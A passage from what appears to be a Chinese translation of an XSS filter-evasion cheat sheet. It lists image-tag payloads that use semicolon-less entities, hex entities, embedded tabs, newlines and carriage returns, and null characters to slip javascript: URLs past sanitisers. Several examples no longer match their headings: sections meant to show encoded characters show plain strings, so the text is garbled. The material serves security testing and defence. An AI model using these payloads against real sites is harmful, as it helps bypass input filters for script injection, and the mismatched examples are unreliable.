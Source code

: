 他是经常有用的在绕过寻找 "&#XX;" 格式的 xss 过滤，因为大多数人不知道最多允许 7 位字符的编码限制。这也是有用的对那些对字符串解码像 $tmp_string =~ s/. _\&#(\d+);._ /$1/; , 错误的认为一个 html 编码需要用; 去结束。（我是无意中发现）

```
<IMG SRC=javascript:alert('XSS')>
```

## 结尾没有分号的十六进制 html 编码引用

这也是一种实用的 xss 攻击针对上文的 $tmp_string =~ s/. _\&#(\d+);._ /$1/; ，错误的认为数字编码跟随在 #后面（十六进制 htnl 编码并非如此），。使用 XSS [Calculator](http://ha.ckers.org/xsscalc.html) 获取更多信息。

```
<IMG SRC=javascript:alert('XSS')>
```

## 内嵌 TAB

用来分开 xss 攻击代码

```
<IMG SRC="jav   ascript:alert('XSS');">
```

## 内嵌被编码的 TAB

用来分开 xss 攻击代码

```
<IMG SRC="jav   ascript:alert('XSS');">
```

## 内嵌换行符去分开 xss 代码

一些网站声称 09-13 编码的所有字符（十进制）都可以实现这种形式的攻击。这是不正确的。只有 09(tab), 10 (换行) 和 13 (回车) 可以使用。查看 ascii 表为更详细的信息。下面四个 xss 例子展示了这个向量。

```
<IMG SRC="jav
ascript:alert('XSS');">
```

## 编码回车符去分开 xss 代码

注意：上面我编写的三个 xss 字符串比必须的字符串更长，原因是 0 可以被省略。通常我看到的过滤器假设十六进制和十进制的编码是两到三个字符。正确的应该是一到七个字符。

```
<IMG SRC="jav
ascript:alert('XSS');">
```

## 没有分割的 javascript 指令

null 字符也可以作为一个 xss 向量，但是不像上边那样。你需要直接注入它们利用一些工具例如 Burp Proxy，或是使用 %00 在你的 url 字符串里。或者如果你想写你自己的注入工具你可以使用 vim（^V^@ 会生成 null），以及用下面的程序去生成它到一个文本文件中。好吧，我再一次撒谎了。 Opera 的老版本（大约 7.11 on Windows）是脆弱的对于一个额外的字符 173（软连字符）。但是 null 字符 %00 是更加的有用或者帮助我们绕过某些真实存在的过滤器用过变动像这个例子中的。
